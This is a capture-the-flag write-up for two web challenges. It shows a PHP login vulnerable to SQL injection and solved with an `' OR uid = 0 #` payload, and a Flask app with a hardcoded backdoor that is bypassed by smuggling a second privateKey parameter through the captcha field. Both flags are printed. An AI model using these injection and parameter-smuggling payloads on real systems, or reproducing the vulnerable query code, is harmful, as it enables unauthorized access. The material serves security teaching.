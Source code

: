 # Web Exploits

## Sequel Fun

Easy sql injection

Relevant source code
```php
<?php
include ("config.php");
if (isset ($_GET['user']) && isset ($_GET['pass'])) {
  $user = $_GET['user'];
  $pass = $_GET['pass'];
  if (strpos ($user, '1') === false && strpos ($pass, '1') === false) {
    $conn = new mysqli ($servername, $username, $password, $dbname);
    $result = mysqli_query ($conn, "SELECT * FROM users WHERE user='" . $user . "' AND pass='" . $pass . "'", MYSQLI_STORE_RESULT); // TO-DO: Remove elf:elf account

    if ($result === false) {
      echo "<b>Our servers have run into a query error. Please try again later.</b>";
    } else {
      if ($result->num_rows !== 0) {
        $row = mysqli_fetch_array ($result, MYSQLI_ASSOC);

        echo "<h1>You are logged in as: " . $row["user"] . "</h1><br>";

        echo "<b class='flag'>";
        if ($row ["uid"] === "0")
          echo $flag;
        else
          echo "Welcome elf!";
        echo "</b>";

      } else {
        echo "<b>Login fail.</b>";
      }
    }
  } else {
    echo "<b>I don't like the number 1 :(</b>";
  }
} else {
  echo '<form class="center">
    <h1>Santa Login:</h1>
    <label>Username:</label> <input type="text" name="user" autocomplete="off"><br>
    <label>Password:</label> <input type="password" name="pass" autocomplete="off"><br>
    <input type="submit" value="Connect">
  </form>';
}
?>
```

Set username to `' OR uid = 0 #` and whatever to password

Flag: ```X-MAS{S0_1_c4n_b3_4dmin_w1th0ut_7h3_p4ssw0rd?}```

## Roboworld
> A friend of mine told me about this website where I can find secret cool stuff. He even managed to leak a part of the source code for me, but when I try to login it always fails :(
> Can you figure out what's wrong and access the secret files?
> Remote server: http://challs.xmas.htsp.ro:11000

Given file: leak.py
```py
from flask import Flask, render_template, request, session, redirect
import os
import requests
from captcha import verifyCaptchaValue

app = Flask(__name__)

@app.route('/')
def index():
    return render_template("index.html")

@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('user')
    password = request.form.get('pass')
    captchaToken = request.form.get('captcha_verification_value')

    privKey = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX" #redacted
    r = requests.get('http://127.0.0.1:{}/captchaVerify?captchaUserValue={}&privateKey={}'.format(str(port), captchaToken, privKey))
    #backdoored ;)))
    if username == "backd00r" and password == "catsrcool" and r.content == b'allow':
        session['logged'] = True
        return redirect('//redacted//')
    else:
        return "login failed"


@app.route('/captchaVerify')
def captchaVerify():
    #only 127.0.0.1 has access
    if request.remote_addr != "127.0.0.1":
        return "Access denied"

    token = request.args.get('captchaUserValue')
    privKey = request.args.get('privateKey')
    #TODO: remove debugging privkey for testing: 8EE86735658A9CE426EAF4E26BB0450E from captcha verification system
    if(verifyCaptchaValue(token, privKey)):
        return str("allow")
    else:
        return str("deny")
```

If you make a request to `/captchaVerify` endpoint with `privateKey=8EE86735658A9CE426EAF4E26BB0450E`, you will get `allow` regardless of `captcha value`

We need to make `/login` post endpoint call the `/captchaVerify` endpoint with our poisoned `captchaToken`

We need post body to be
```user=backd00r&pass=catsrcool&captcha_verification_value=A%26privateKey%3D8EE86735658A9CE426EAF4E26BB0450E```

which makes the login route do a request like
```
GET /captchaVerify?captchaUserValue=A&privateKey=8EE86735658A9CE426EAF4E26BB0450E&privateKey=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

When doing `privKey = request.args.get('privateKey')`
`privkey` gets set to our debug privateKey instead

Or in burp set to this params

![burp](https://i.imgur.com/Ul9WFlT.png)

Send it and u get redirected to 

![dashboard](https://i.imgur.com/B6UgUqh.png)

Open the wtf.mp4 can u get the flag reverse

<video width="320" height="240" controls>
  <source src="files/wtf.mp4" type="video/mp4">
</video>

Do a frame grab and manually mirror the flag or ocr or whatever method

![](https://i.imgur.com/YC7UA1G.png)

Flag: ```X-MAS{Am_1_Th3_R0bot?_0.o}```

